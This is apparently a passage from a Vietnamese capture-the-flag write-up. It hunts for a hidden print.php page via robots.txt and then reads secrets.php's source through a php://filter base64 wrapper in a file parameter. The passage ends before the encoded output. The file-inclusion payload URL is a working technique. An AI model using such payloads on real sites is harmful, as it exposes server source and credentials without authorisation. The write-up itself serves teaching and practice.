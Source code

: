 ![alt text](/assets/img/posts/BrunnerCTF/image-18.png)

Ngoài ra trong đoạn script trên có đoạn comment **`Open the print URL in a new window (Note to self: Remember to add print.php to robots.txt!)`** có thể là gợi cho chúng ta. đọc thử file `robots.txt` ta nhận được kết quả trả về như sau:
**`User-agent: * Allow: /index.php Allow: /bakery-calendar.php Disallow: /print.php Disallow: /secrets.php`**

Thử truy cập `https://brunsviger-huset-269cf517a0f4cf2b.challs.brunnerne.xyz/print.php?file=secrets.php` {: .path} thì không nhận được gì cả
![alt text](image-20.png)
![alt text](/assets/img/posts/BrunnerCTF/image-20.png)
Vì file trên là file `php` nên mình nhớ đến việc dùng **`php wrapper`**

Truy cập `https://brunsviger-huset-269cf517a0f4cf2b.challs.brunnerne.xyz/print.php?file=php://filter/convert.base64-encode/resource=secrets.php` {: .path} thì nhận được kết quả là một chuỗi mã hóa `base64`:

